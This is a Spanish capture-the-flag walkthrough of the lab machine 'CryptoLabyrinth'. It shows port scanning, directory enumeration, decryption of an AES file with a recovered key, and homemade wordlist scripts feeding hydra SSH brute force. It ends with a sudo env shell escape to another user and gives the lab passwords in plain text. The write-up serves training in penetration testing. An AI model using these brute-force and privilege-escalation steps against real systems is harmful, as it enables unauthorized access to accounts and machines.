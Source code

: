 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 25/10/2024 🖥️The
  Hacker Labs
---
```


# CryptoLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.82
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.82
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.82
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de **Apache**.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos una cadena que podría ser una contraseña.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.1.82/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Desciframos estos hashes y se nos proporciona 4 contraseñas y al probar vemos que no son. Hay un hash que falta por lo que creamos un diccionario con la cadena vista en el código fuente.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los últimos dos asteriscos (si existen)
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Generar combinaciones con el comando seq y expandiendo directamente los caracteres
for i in $(seq 0 $((${#caracteres}-1))); do
    for j in $(seq 0 $((${#caracteres}-1))); do
        # Concatenar la palabra sin asteriscos con los caracteres generados
        echo "${palabra_sin_asteriscos}${caracteres:$i:1}${caracteres:$j:1}" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

```bash
./rompe.sh "2LWxmDsW0**"
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos la fuerza bruta al usuario **bob** con las combinaciones generadas anteriormente.

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras haber obtenido las credenciales, iniciamos sesión con **bob**.

```bash
ssh bob@192.168.1.82
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña pero con el usuario **alice**. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo -u alice /usr/bin/env /bin/sh
```

Mejoramos la TTY para trabajar en alice.

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando entre los directorios encontramos en el directorio `/mnt` un archivo secreto.

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario como anteriormente para descifrar la contraseña correcta.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los asteriscos de la palabra
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Obtener la longitud de la palabra sin asteriscos
longitud=${#palabra_sin_asteriscos}

# Generar todas las combinaciones de 2 caracteres
for ((i = 0; i < ${#caracteres}; i++)); do
    for ((j = 0; j < ${#caracteres}; j++)); do
        # Insertar los caracteres en las posiciones deseadas
        combinacion="${palabra_sin_asteriscos:0:4}${caracteres:i:1}${palabra_sin_asteriscos:4:5}${caracteres:j:1}"
        # Escribir en el archivo
        echo "$combinacion" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta para conseguir la contraseña completa.

```bash
hydra -l root -P combinaciones.txt ssh://192.168.1.82
```

Obtenemos la contraseña completa que es **`2LWx9DsW0A3`**.

<figure><img src="../.gitbook/assets/Captura de pantalla 2024-10-26 172442.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
